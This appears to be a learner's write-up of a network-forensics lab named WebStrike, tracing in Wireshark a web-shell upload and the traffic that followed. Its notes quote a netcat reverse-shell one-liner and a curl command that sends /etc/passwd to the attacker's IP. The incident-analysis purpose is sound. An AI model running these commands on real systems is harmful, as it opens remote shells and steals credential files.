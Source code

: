 # WebStrike Lab

## Objective:

Task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### Skills Learned

- Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
- Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
- We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
- Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
- Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
- Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Tools Used

- Wireshark
- ipgeolocation.io

## Steps:

drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: Network Diagram*

## Notes:

- Thunar file system interaction
- https://ipgeolocation.io/   for IPv4v Address (117.11.88.124) Lookup
- WebStrike.PCAP
- uese-agent ---- | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
- Filter for wire shark ---- |(ip.src == 117.11.88.124 and http.request.method=="POST") |
- "image.jpg.php" uploaded successfully
- ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")
- Uploaded file found in /reviews/uploads/
- Port 8080 targeted
- Filter for wire shark ---- | (tcp.port==8080) && (ip.src==24.49.63.79) |
- Attacker used "curl" "curl -X POST -d /etc/passwd http://117.11.88.124:443/"
- Shows exfiltration of critical information containing sensitive user configuration data.
- 
